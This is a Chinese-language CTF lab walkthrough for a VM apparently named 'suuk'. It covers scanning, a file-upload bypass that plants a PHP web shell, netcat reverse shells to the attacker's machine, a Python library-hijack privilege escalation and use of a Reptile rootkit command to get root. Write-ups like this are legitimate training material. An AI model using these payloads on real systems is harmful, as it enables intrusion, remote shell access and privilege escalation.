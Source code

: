 做virtualBox的端口映射吧

|   |   |   |
|---|---|---|
|suuk|medim|文件白名单绕过、反弹shell、$paht环境变量更改、python 库劫持提权、Reptile提权、sandfly-processdecloak使用|
# 服务扫描

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238

```
# GetSHell
访问80http://192.168.18.238/
文件上传，白名单限制,只允许图片格式,使用1.php.jpg的方式绕过文件上传，原因可能是因为后端只取点后的第一个后缀进行解析。
```css
POST /upload.php HTTP/1.1

Host: 192.168.18.238

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------58834982911681499741555270890

Content-Length: 365

Origin: http://192.168.18.238

Connection: close

Referer: http://192.168.18.238/

Upgrade-Insecure-Requests: 1



-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="photo"; filename="1.php.jpg"

Content-Type: image/png



<?php system($_GET['cmd']);?>

-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="submit"



Upload

-----------------------------58834982911681499741555270890--
```

访问http://192.168.18.238/upload/1.php.jpg?cmd=id

反弹shell
```css
http://192.168.18.238/upload/1.php.jpg?cmd=nc%20-e%20/bin/bash%20192.168.44.128%209001


┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@kuus:/var/www/html/upload$ 

```

# 提权
tignasse 账号下有个.pass.txt 文件，但是经过测试并没有用
尝试常规的sudo\suid\内核\任务计划\进程分析手段、爆破了一段时间之后,也没结果。实在不想浪费时间了，看了别人的writeup，才知道。这里密码另有隐情！
```c
www-data@kuus:/home$ ls
ls
mister_b  tignasse

www-data@kuus:/home/tignasse$ more .pass.txt
more .pass.txt
716n4553
www-data@kuus:/home/tignasse$ cat .pass.txt
cat .pass.txt
Try harder !

```

hydra
```c
hydra -l tignasse -p 716n4553 ssh://192.168.18.238

[22][ssh] host: 192.168.18.238   login: tignasse   password: 716n4553
```

ssh
```c
┌──(kali㉿kali)-[~]
└─$ sudo ssh tignasse@192.168.18.238

tignasse@kuus:~$ sudo -l
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py

```
tignasse 用户下，可以看到mister_b 用户有个特权脚本
game.py文件由用户mister_b所有，它导入3 个库。可以看到导入的库使用了可能被滥用的相对路径。
1、我们在/opt/games内创建一个名为random.py的文件，其中包含以下内容：
```
import os 
os.system("nc -e /bin/bash 192.168.44.128 9000")
```
2.、将/opt/games添加到PATH：
通过 python 库劫持进行的权限升级，因为 python 会搜索它导入的库，这些库通常是 PATH 中第一个的库，这就是我们在PATH之前添加/opt/games的原因。
3、最后我们使用nc 监听 2334端口，然后使用sudo 执行该脚本后，成功获取mister_b权限

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4315
id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)
script /dev/null -c bash
Script started, file is /dev/null


mister_b@kuus:~$ cat user.txt
cat user.txt
Ciphura

```

历史记录发现执行了一个二进制文件
```c
mister_b@kuus:~$ cat .bash_history
cat .bash_history
ps -aux |grep root
ss -altp
sudo -l
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
./sandfly-processdecloak
exit

```
sandfly-processdecloak是一个实用程序，用于快速扫描被常见和不常见的可加载内核模块隐形 Rootkit 隐藏的 Linux 进程 ID (PID)，并将其隐藏起来，使它们可见。比如：Diamorphine, Reptile and variants

编译了一个上传上去执行并没有看到隐藏进程，后面找了一下reptile项目，发现reptile 文件夹也是隐藏的。

https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage

在www-data 的 bash 历史记录中，有一个名为[reptile](https://github.com/f0rb1dd3n/Reptile)的隐藏目录
```c
www-data@kuus:/var/www$ cd ~
www-data@kuus:/var/www$ cat .bash_history
```

尝试执行如下命令，发现直接提取到root，www-data 权限也是可以直接提取到root

```
/reptile/reptile_cmd root
```

